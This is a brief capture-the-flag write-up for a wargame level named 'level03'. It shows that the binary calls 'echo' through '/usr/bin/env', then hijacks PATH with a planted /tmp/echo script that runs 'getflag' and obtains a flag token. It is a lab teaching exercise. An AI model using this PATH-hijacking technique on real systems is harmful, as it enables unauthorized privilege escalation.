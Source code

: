 In the home folder we find a executable named `level03` which can be examined with `strings` :
```bash
strings ./level03
[...]
/usr/bin/env echo Exploit me
[...]
```

Here we found a PATH exploit, the executable use `/usr/bin/env echo` instead of `/bin/echo`, we can change the PATH and execute a file named echo with the command `getflag` in :
```bash
echo getflag > /tmp/echo
chmod +x /tmp/echo
export PATH=/tmp:$PATH
```

We execute `./level03` :
```bash
./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
